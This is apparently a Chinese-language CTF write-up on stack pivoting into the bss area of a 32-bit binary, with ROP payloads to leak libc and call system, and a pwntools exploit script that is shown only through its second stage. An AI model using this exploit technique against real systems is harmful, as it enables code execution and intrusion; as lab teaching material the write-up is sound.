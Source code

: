   
  
可以看到0x804a000后有0x1000的可读写空间，可以将栈迁移到这个地方。  
  
首先第一次需要改变`ebp`的值，然后转到read函数处，读入内容的地址为栈迁移的地址。将read以后的返回地址写成`leave gadget`以此达到栈迁移的目的。  
  
```python  
bss_addr = 0x804a000  
payload = flat(['a'*0x28, bss_addr+0x300, read_addr, leave_gadget, 0, bss_addr+0x300, 0x30])  
```  
  
第二次需要泄露libc的地址，使用puts打印出read/puts函数got表中的地址。  
  
```python  
payload = flat([bss_addr+0x600, puts_addr, pop_ret, puts_got, read_addr, leave_gadget, 0, bss_addr+600, 0x30])  
```  
  
第三次需要返回到system函数处  
  
```python  
payload = flat([bss_addr+0x300, system_addr, pop_ret, bin_addr])  
```  
  
exp:  
  
```python  
from pwn import *  
context.log_level = "debug"  
context.terminal = ['tmux', 'splitw', '-h']  
  
r = process("./migration")  
elf = ELF("./migration")  
libc = ELF("/lib/i386-linux-gnu/libc.so.6")  
  
bss_addr = 0x804a000  
leave_ret = 0x08048418  
pop_ebx_ret = 0x0804836d  
read_plt = elf.plt["read"]  
puts_plt = elf.plt["puts"]  
puts_got = elf.got["puts"]  
  
DEBUG = 1  
if DEBUG:  
        gdb.attach(r, """  
                b *0x08048418  
        """)  
  
payload = "a" * 0x28  
payload += p32(bss_addr + 0x300) # fake ebp  
payload += p32(read_plt) # read(0,buf,0x30)  
payload += p32(leave_ret) # ret to buf  
payload += p32(0) # fd  
payload += p32(bss_addr + 0x300) # buf  
payload += p32(0x30) # bytes  
  
r.recvuntil(":\n")  
r.send(payload)  
sleep(0.2)  
  
payload = p32(bss_addr + 0x600) # fake ebp  
payload += p32(puts_plt) # puts(puts_got)  
payload += p32(pop_ebx_ret)  
payload += p32(puts_got)  
payload += p32(read_plt) # read(0,buf + 0x100,0x30)  
payload += p32(leave_ret) # ret to buf + 0x100  
payload += p32(0) # fd  
payload += p32(bss_addr + 0x600) # buf  
payload += p32(0x30) # bytes  
```